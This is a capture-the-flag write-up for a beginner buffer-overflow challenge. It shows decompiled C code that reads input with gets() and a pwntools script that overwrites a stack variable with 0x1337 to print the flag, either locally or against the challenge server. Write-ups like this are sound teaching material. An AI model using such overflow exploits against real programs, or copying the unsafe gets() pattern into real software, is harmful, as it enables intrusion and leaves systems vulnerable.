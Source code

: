# Gets you later!

![chall](challenge.png)
![first-blood](first-blood.png)


## Variable overwrite - Buffer overflow

Here we start off with a binary that prompts us for a password as input and seems to do some checks to see if we entered the correct password. After decompiling the binary and looking at the main function we would see that the program checks to see if a variable is equal to the value `0x1337` if true it proceeds to open the flag.txt file and print out the contents of the file. 

## Analysis

After throwing the binary into *IDA Pro* and looking at the decompiled pseudo-code we should have something similar looking to this

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[28]; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v5 = 0;
  printf("Enter the password! ");
  gets(v4);
  if ( v5 == 0x1337 )
    return system("cat flag.txt");
  printf("Wrong password %s!\n", v4);
  return 0;
}

```

Here we quickly see that the program is checking whether the variable `v5` is equal to the hexadecimal value `0x1337`. Looking a bit closer we come across an issue, the variable which is being used to check our value is set to zero `v5 = 0;` but we also see that our input is passed to a dangerous function called `gets()` right before the comparison. With this information we can quickly come up with an attack strategy.

1. overflow the buffer
2. overwrite the variable with the correct value - 0x1337


Because we know that the buffer is only `28` bytes and the next instruction compares the contents of the `v5` variable to `0x1337` which dereferences `rbp+0x4` to get to the contents of the variable, we can fill the buffer with 28 bytes of junk and then write our desired value to the variable `v5`

```python
#!/usr/bin/python3

from pwn import *
#context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'

if args.REMOTE:
    p = remote('ggc.tf', 31000)
else:
    p = process('./gets_you_later')

buffer = b"\x90" * 28
overwrite = p64(0x1337)
payload = flat(buffer, overwrite)
p.sendline(payload)
log.success(f"FLAG: {p.recvline().strip().split()[-1].decode()}")
```
